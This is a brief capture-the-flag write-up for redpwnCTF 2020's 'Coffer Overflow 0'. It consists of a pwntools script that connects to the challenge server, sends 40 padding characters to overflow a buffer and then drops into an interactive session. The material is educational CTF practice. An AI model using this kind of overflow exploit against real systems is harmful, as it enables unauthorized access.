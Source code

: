 # Coffer Overflow 0
Literally just spam characters

```python
from pwn import *

p = remote('2020.redpwnc.tf', 31199)

p.clean(0.2)
p.sendline('a' * 40)
p.interactive()
```